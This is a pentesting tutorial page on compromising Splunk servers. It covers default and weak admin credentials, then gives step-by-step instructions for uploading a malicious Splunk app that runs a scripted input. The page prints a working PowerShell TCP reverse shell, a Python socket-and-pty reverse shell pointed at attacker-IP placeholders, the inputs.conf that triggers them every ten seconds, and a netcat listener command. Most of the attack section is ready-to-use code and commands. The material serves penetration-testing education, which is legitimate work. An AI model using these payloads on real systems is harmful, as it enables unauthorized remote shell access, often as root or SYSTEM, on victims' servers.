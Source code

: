 ```yaml
---
title: Pentesting Splunk
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web
  - pentesting
  - techniques
  - splunk
---
```

# Pentesting Splunk

Splunk is a log analytics tool used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for security monitoring and business analytics.

The biggest focus of Splunk during an assessment would be weak or null authentication because admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server.

Splunk is prevalent in internal networks and often runs as root on Linux or SYSTEM on Windows systems.

The Splunk web server runs by default on port 8000. Port 8089 is the Splunk management port for communication with the Splunk REST API.

On older versions of Splunk, the default credentials are `admin:changeme`, which are conveniently displayed on the login page. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.


> The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment.


## Default file structure

```
/opt/splunk/
├── bin/                    
│   ├── splunk          # Main executable and helper scripts
│   ├── splunkcmd       # Command-line utilities
│   └── ...             # Other executables and scripts
├── etc/                    
│   ├── apps/           
│   │   ├── search/      # Default Search app
│   │   ├── launcher/    # App for launching Splunk Web
│   │   ├── _cluster/    # Clustering-related app (if applicable)
│   │   └── ...          # Other bundled/default apps
│   ├── system/          
│   │   ├── default/     # Default system configurations
│   │   │   ├── app.conf
│   │   │   ├── web.conf
│   │   │   └── ...      # Other default config files
│   │   └── local/       # Local (custom) configuration overrides
│   │       └── ...      
│   └── users/           # User-specific configuration settings
│       └── ...          
├── lib/                   
│   └── pythonX.Y/       # Bundled Python libraries (version may vary)
│       └── ...          
├── var/                   
│   ├── log/             
│   │   └── splunk/      # Log files directory
│   │       ├── splunkd.log
│   │       ├── web_service.log
│   │       └── ...      # Other log files
│   ├── run/             
│   │   └── splunk/      # Runtime files (PID files, sockets, etc.)
│   └── state/           
│       └── ...          # State and session data
└── share/                 
    ├── doc/             # Documentation files
    │   └── ...          
    └── examples/        # Example configurations and scripts
        └── ...          

```


- **`bin/`** contains the primary executables and scripts used to start and manage Splunk.
- **`etc/`** is where configuration files reside. The `apps/` directory holds all apps (both built-in and custom), while `system/` contains global configuration files.
- **`lib/`** includes libraries required by Splunk, such as bundled versions of Python.
- **`var/`** holds runtime data such as logs, state information, and PID files.
- **`share/`** contains shared resources like documentation and example files.

## Abusing  built-in functionality to gain shell access

Splunk has multiple ways of running code, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts.

A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

As Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts. Also, every Splunk installation comes with Python installed, so Python scripts can be run on any Splunk system.

We can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts.

### reverse_shell_splunk

A simple splunk package for obtaining reverse shells on both Windows and most *nix systems._

Download from: https://github.com/0xjpuff/reverse_shell_splunk.git

Requirements:

- splunk administrative access
- a netcat / socat listener on the attacking machine

To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.



**1.** Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports.

```
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```


**2.** Your files and directory structure should look like this.

```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

**3.** The inputs.conf file tells Splunk to run the run.bat script and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present. Nothing to do here:

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```


#### Case #1 Windows

**4.** If run.ps1 will be used, update attacking host and ip in run.ps1:

```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip_here',attacker_port_here);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


**5.** Create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

**6.** Now click `INstall app from file` in the Apps location: http://10.129.48.71:8000/en-US/app/launcher/apps/local

**7.** Before uploading the malicious custom app, let's start a listener using Netcat or socat.

```shell-session
 sudo nc -lnvp 443
```

**8.** On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.


#### Case #2 Linux

**4.** If we are dealing with a Linux host, we need to edit the file `rev.py`: update attacking host and ip. 

```import sys,socket,os,pty
ip="attacker-ip-here"  
port="attacker port here"  
s=socket.socket()  
s.connect((ip,int(port)))  
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash') 
```


**5.** Create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

**6.** Now click `INstall app from file` in the Apps location: http://10.129.48.71:8000/en-US/app/launcher/apps/local

**7.** Before uploading the malicious custom app, let's start a listener using Netcat or socat.

```shell-session
 sudo nc -lnvp 443
```

**8.** On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.


